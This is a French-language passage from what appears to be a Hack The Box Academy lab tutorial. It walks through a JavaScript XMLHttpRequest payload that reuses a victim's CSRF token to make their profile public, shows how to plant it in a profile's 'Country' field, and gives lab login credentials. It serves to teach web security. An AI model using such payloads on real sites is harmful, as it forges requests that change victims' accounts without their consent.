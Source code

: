 Code : javascript

```
var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');

```

L'extrait de script ci-dessus construit la requête HTTP que nous enverrons via un objet [XMLHttpRequest .](https://blog.0daylabs.com/2014/09/13/ajax-everything-you-should-know-about-xmlhttprequest/)

Code : javascript

```
changeReq.open('post', '/app/change-visibility', true);

```

Dans l'extrait de script ci-dessus, nous changeons la méthode de GET à POST. La première demande était de nous déplacer vers la page ciblée et la deuxième demande était d'effectuer l'action souhaitée.

Code : javascript

```
changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');

```

L'extrait de script ci-dessus définit le Content-Type sur *application/x-www-form-urlencoded* .

Code : javascript

```
changeReq.send('csrf='+token+'&action=change');

```

L'extrait de script ci-dessus envoie la requête avec un paramètre appelé *csrf* ayant la valeur de la variable *de jeton* , qui est essentiellement le jeton CSRF de la victime, et un autre paramètre appelé *action* avec la valeur *change* . Ce sont les deux paramètres que nous avons remarqués lors de l'inspection de la requête ciblée via Burp.

![image](https://academy.hackthebox.com/storage/modules/153/56.png)

Essayons de rendre public le profil d'une victime.

Tout d'abord, soumettez la charge utile complète dans le champ *Pays* du profil d'Ela Stienen et cliquez sur "Enregistrer".

![image](https://academy.hackthebox.com/storage/modules/153/44.png)

Ouvrez un `New Private Window`, accédez à `http://minilab.htb.net`nouveau et connectez-vous à l'application à l'aide des informations d'identification ci-dessous :

-   Courriel : goldenpeacock467
-   Mot de passe : topcat
